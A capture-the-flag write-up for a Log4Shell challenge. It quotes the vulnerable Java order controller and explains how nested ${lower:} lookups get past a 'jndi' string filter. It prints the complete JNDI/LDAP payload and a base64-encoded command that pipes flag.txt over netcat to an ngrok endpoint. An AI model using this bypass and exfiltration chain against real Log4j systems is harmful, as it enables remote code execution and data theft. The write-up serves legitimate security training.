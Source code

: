# log4coffee

## by *kaipan*

### Description

This is a challenge based on the recent *log4j* logging tool exploit (called *log4shell*). Describing what this vulnerability/exploit is is too much work, so if you want to know how it works then you can just go to this link and read up on it: https://www.lunasec.io/docs/blog/log4j-zero-day/. The gist of it is that you can get Remote Code Execution (RCE) by logging a certain string (with a specific format). We are given a website and its source code so we need to discover how we can use the *log4shell* exploit to retrieve the flag.

### Discovering and Understanding the Vulnerability

We are given the source code in a zip file. We need to extract the contents of the zip file and navigate to the following directory: **log4coffee > coffeeCorporation > src > main > java > com > corporate > coffeeCorporation**. Here we see five source code files. The only one that matters (that does the logging and thus is vulnerable to the logging exploit *log4shell*) is **CoffeeController.java**. The important code for the file is as follows:

```java
@RestController
public class CoffeeController {

  private static final Logger logger = LogManager.getLogger("OrderLog");
  private final AtomicLong orderID = new AtomicLong();

  @GetMapping("/available")
  public ArrayList<Coffee> available(){
    int size = 3;
    ArrayList<Coffee> inventory = new ArrayList<Coffee>(size);
    inventory.add(new Coffee(0, 23, "Light Roast"));
    inventory.add(new Coffee(1, 49, "Medium Roast"));
    inventory.add(new Coffee(2, 94, "rgb(0,0,0) Roast"));
    return inventory;
  }

  @PostMapping("/order")
  public String orderUp(@ModelAttribute OrderForm order, Model model){
    String comments = order.getComments();

    String response;

    // ok fixed log4shell vuln, app is now secure.
    if (!(comments.contains("jndi"))){
      ByteArrayOutputStream baos = new ByteArrayOutputStream();
      PrintStream ps = new PrintStream(baos);
      PrintStream old = System.out;
      System.setOut(ps);
      logger.info(String.format(">>> Order ID: %d, QTY: %d, Notes: %s", orderID.incrementAndGet(), order.getQty(), comments));
      System.out.flush();
      System.setOut(old);
      response = baos.toString().split(">>>", 2)[1];
    } else {
      response = "Haha! Nice try hacker--but my web-application is *super secure*!";
    }

    return response;
  }
}
```

The first part of the code, the function `available`, just prints out the coffees and their respective IDs. This is purely UI so we don't really care. The `orderUp` function is what we care about, since this function gets run when we submit our order on the website. We see that there is a logging operation in the function, specifically the `logger.info()` call. This means that there is a *log4shell* exploit that we can take advantage of through this logging. Of course we see the problem here; there is an apparent "fix" stated in the comments, and upon closer inspection we see that there is a condition that checks if the comment, which is where we enter the string that gets logged and thus is where we execute the *log4j* attack through entering the special formatted string, actually checks for a part of the formatted string. If the comment has "jndi", which is the *Java Naming and Directory Interface* that we normally use in the logger to execute the *log4shell* attack, then it will not log it and instead print a message. We can get around this filter though and still execute the exploit (the specific format that the string we log for *log4shell* is `${jndi:ldap//ip/end}`, which is in the format for lookup/variable substitution for *log4j*).

We can bypass the "jdni" filter by recreating "jdni" in a roundabout way with *log4j* variable substitution. These variable substitution expressions are encased in `${}`. To save you all the trouble, we can recreate "jdni" at runtime with the `lower` lookup/variable substitution which just converts the arguments in the `${}` expression to lower case. We just need to split up "jdni" and put them inside of the `lower` lookups. This way, the actual string is not "jdni", and so it passes the conditional and we get to the logging; once we get to the logging, log4j interprets these lookups dynamically and substitutes the `${}` expressions to make lowercase "jd" and "ni". Thus, when put together, we get back "jdni" at runtime when the logger runs, but it is not "jdni" when the comment string is checked in the code before getting to the logger call in the code, so we end up bypassing the "jdni" filter. Pog!

Our *log4j* payload should look something like this now to bypass the filter:

`${${lower:jn}${lower:di}:ldap//ip/end}` 

** Note that we can nest lookup expressions inside one another, thus this recreates the `${jndi:ldap//ip/end}` format needed to do the exploit

The hard part is now done. We just need to fill in the rest of the string with the server LDAP server that was setup by a coach and we can get the LDAP server to redirect us to another server that creates a malicious class and serves it back to the web app. The web app then runs the malicious class with our code that reads the flag and exfiltrates it to our own listening server. Basically, our *log4j* payload that runs on the web app gets the web app to run malicious code that reads the flag and sends it to our own server.

### I Literally Hate ngrok and Setting Up a Listening Server

In theory, setting up a listening server should be pretty easy. Except my VM and the challenge was having bruh moments that made it infinitely more challenging than it needed to be (hostname resolution issues and the LDAP server being down for everyone lol). But I'll just describe the working steps rather than vent my frustrations.

First we setup a listening server, since we will have the web app send the flag after it gets read (through our malicious class) to this listening server for us to retrieve and read the flag. We set up a listening server using `netcat` on any open port with the command `nc -lvp <port>`. I used port 5299.

Now we have to go the extra step to setup **ngrok**, which forwards outside traffic to its endpoint to our localhost or something like that. I don't know exactly why we need it since I was frustrated from the LDAP server being down (my payload was correct except the challenge infrastructure wasn't working) and I was just trying a whole bunch of different things and I ended up not paying much attention to the explanation for **ngrok**. I didn't know if it was the challenge infrastructure or the my own listening server/network so I was just trying to figure that out and **ngrok** was an annoyance on top of all of this. Can't forget the fact that you need to make an account for it as well, and I doubt I'll use **ngrok** again.

So now we have this tunnel to local host, and this tunnel/address from **ngrok** is where we are going to send the flag data to, and then the tunnel forwards this data to our listening server set up by `netcat`. We download and unzip **ngrok**, we add the authentication key or whatever with a command on their website, and then we hookup **ngrok** to point to our listening server on port 5299 using the TCP protocol with a command on the **ngrok** website as well but changing the port and protocol.

**ngrok** gives us an endpoint to send our data to when we start the **ngrok** tunnel, and now we can create our command to read the flag and send it to this endpoint 2.tcp.ngrok.io:10176. So our payload, since it executes on the infrastructure of the web app, must contain the flag. The commands we run are under this assumption (we assume command gets run in directory of the web app on the web app infrastructure which has the flag). Thus, we can just `cat flag.txt` and then send it using `netcat` with the pipe operator to our **ngrok** endpoint which forwards it to our listening server. The final command is this:

`cat flag.txt | nc 2.tcp.ngrok.io 10176`

The LDAP server has a route that creates a payload based on base64 encoded commands, so we need to encode the above command in base64 and add it to our *log4j* payload. In base64, the command is: `Y2F0IGZsYWcudHh0IHwgbmMgMi50Y3Aubmdyb2suaW8gMTAxNzY=`.

Now we can build the final payload which contains the filter bypass, the LDAP server already set up, and the route which creates a malicious class based on base64 encoded commands. It is shown below:

`${${lower:jn}${lower:di}:ldap://log4j.ctf-league.osusec.org:1389/Basic/Command/Base64/Y2F0IGZsYWcudHh0IHwgbmMgMi50Y3Aubmdyb2suaW8gMTAxNzY=}`

The LDAP server was STILL DOWN when I figured this out, and somebody ended up getting first blood right when the server went back up, so I basically got scammed trying out alternatives when it was just the LDAP server. I'm still kinda salty if you can't tell right now.

Regardless, we just put the command in the comments field, submit the form on the web app, and then we just check our listening server which should retrieve the flag data!

### Flag

`osu{m0r3_l1k3_l0g_4_fl@g}`
